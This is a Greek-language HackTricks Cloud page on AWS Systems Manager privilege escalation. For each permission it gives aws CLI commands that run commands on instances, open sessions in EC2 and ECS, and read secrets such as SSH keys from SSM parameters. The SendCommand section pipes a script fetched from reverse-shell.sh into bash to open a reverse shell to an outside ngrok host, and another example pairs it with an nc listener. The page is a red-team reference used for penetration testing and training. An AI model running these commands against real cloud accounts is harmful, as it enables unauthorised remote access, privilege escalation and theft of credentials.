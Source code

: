# AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM, ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ένας επιτιθέμενος με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελεί εντολές σε instances** που εκτελούν τον Amazon SSM Agent και να **συμβιβάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Σε περίπτωση που χρησιμοποιείτε αυτή την τεχνική για να κλιμακώσετε τα προνόμια μέσα σε μια ήδη παραβιασμένη EC2 instance, μπορείτε απλά να καταγράψετε το rev shell τοπικά με:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc στους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το **SessionManagerPlugin** εγκατεστημένο: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των ρόλων IAM EC2 που είναι συνδεδεμένοι με τις τρέχουσες παρουσίες με SSM Agents σε εκτέλεση.

#### Εκμετάλλευση σε ECS

Όταν οι **ECS tasks** εκτελούνται με **`ExecuteCommand` ενεργοποιημένο**, οι χρήστες με αρκετά δικαιώματα μπορούν να χρησιμοποιήσουν `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο κοντέινερ.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), αυτό γίνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την εντολή “_exec_” και του στοχευμένου κοντέινερ με τον SSM Session Manager. (Απαιτείται το SSM Session Manager Plugin για να λειτουργήσει)\
Επομένως, οι χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν ένα shell μέσα στις ECS tasks** με αυτή την επιλογή ενεργοποιημένη απλά εκτελώντας:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση για την απόκτηση δικαιωμάτων στα `ECS` IAM roles που είναι συνδεδεμένα σε εκτελούμενα tasks με ενεργοποιημένο το `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας επιτιθέμενος με την άδεια **`ssm:ResumeSession`** μπορεί να επαν-**εκκινήσει μια συνεδρία παρόμοια με SSH σε instances** που εκτελούν τον Amazon SSM Agent με κατάσταση συνεδρίας SSM **αποσυνδεδεμένη** και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων προς τους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τις αναφερόμενες άδειες θα είναι σε θέση να καταγράψει τις **παραμέτρους SSM** και **να τις διαβάσει σε καθαρό κείμενο**. Σε αυτές τις παραμέτρους μπορείτε συχνά **να βρείτε ευαίσθητες πληροφορίες** όπως κλειδιά SSH ή κλειδιά API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και ελπίζουμε να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και **να διαβάσει την έξοδο** που έχει παραχθεί ελπίζοντας να βρει **ευαίσθητες πληροφορίες** σε αυτήν.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στην έξοδο των γραμμών εντολών.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα έργο codebuild που κατασκευάζεται:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
